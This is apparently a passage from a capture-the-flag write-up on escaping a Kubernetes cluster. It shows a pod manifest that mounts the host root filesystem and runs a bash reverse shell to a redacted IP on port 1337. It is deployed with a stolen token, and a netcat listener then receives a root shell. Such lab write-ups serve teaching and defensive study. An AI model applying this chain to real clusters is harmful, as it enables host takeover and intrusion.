 <br>

```bash
root@php-deploy-6d998f68b9-fvtcg:/var/www/html# ./kubectl get pods -n frankland
<vtcg:/var/www/html# ./kubectl get pods -n frankland
NAME                          READY   STATUS        RESTARTS      AGE
php-deploy-6d998f68b9-wlslz   1/1     Terminating   4 (91d ago)   3y199d
php-deploy-6d998f68b9-fvtcg   1/1     Running       0             65m
```

<br>
<p align="center">Created <em>rosana.yaml</em> substituting some parameters of the penultimate step output.<em></p>

```bash
apiVersion: v1
kind: Pod
metadata:
  name: rosana
  namespace: default
spec:
  containers:
  - name: rosana
    image: vulhub/php:8.1-backdoor
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/xx.xxx.xxx.xx/1337 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

<br>
<br>

```bash
:~/FrankandHerbyTryAgain# ~# ./kubectl --server https://xx.xxx.xx.xx:16443 --certificate-authority=ca.crt --token=$token apply -f rosana.yaml
pod/rosana created
```

<br>
<br>

```bash
:~/FrankandHerbyTryAgain# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on xx.xxx.xx.xx 38002
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-xx-xxx-xx-xx:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
